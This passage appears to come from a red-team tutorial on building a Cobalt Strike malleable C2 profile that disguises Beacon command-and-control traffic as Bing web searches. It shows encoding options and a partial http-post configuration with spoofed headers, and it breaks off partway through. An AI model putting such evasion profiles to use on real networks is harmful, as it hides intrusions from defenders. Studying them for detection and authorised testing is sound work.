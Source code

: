 ```plaintext
#base64
nqveOtUC+NlNAyHPVkSLMA==

#base64url
hf2D_5jHAA9ftoOe_ZY3zQ

#netbios
haklhhicanfeldpmgkefkhgjmhccgbmp

#netbiosu 
HHHHGLGDJDELLEKFMDKAANJCLHIEFEMC
```

In addition to the encoding, we can also prepend or append strings to the information. Cobalt Strike interprets the commands from top to bottom and processes on the termination statement (where we specify where to place the information). The four termination statements are: *print*, *header*, *parameter*, and *uri-append*.

For instance, in the server portion of this section we configure the response to encode the Beacon taskings with netbios and insert it within a long HTML string pulled from the real response. We make the encoded tasking simply look like a value in the Bing search results. The *http-get* server output **must** use the *print* termination statement.


## HTTP-POST

In the *http-post* section of our profile, we configure how Beacon sends output to Cobalt Strike. For the Bing web search profile, we want to make the traffic look as close to the *http-get* section as possible.

```plaintext
http-post {
    
    set uri "/Search/";
    set verb "GET";

    client {

        header "Host" "www.bing.com";
        header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8";
        header "Cookie" "DUP=Q=GpO1nJpMnam4UllEfmeMdg2&T=283767088&A=1&IG"; 
        
        output {
            base64url;
            parameter "q";
        }
        
        parameter "go" "Search";
        parameter "qs" "bs";
        
        id {
            base64url;
            parameter "form";
        }
    }

    server {

        header "Cache-Control" "private, max-age=0";
        header "Content-Type" "text/html; charset=utf-8";
        header "Vary" "Accept-Encoding";
        header "Server" "Microsoft-IIS/8.5";
        header "Connection" "close";
        

```